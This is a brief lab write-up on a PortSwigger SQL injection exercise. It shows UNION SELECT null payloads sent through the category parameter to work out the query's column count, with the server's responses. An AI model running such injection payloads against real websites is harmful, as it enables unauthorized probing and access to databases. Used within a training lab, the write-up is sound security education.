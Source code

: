 In this lab the goal is to return the number of columns with a query.

The category parameter is deemed to be vulnerable to UNION based sql injection- so I selected a category intercepted the request with Burpsuite Pro.

I modified the category parameter according to the list provided by PortSwigger's notes. This will assist by returning a 200 OK when the correct number of columns is returned.

```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

As we can see the: category=Gifts'+UNION+SELECT+null,null,null--  200 OK
Is the correct query chosen.

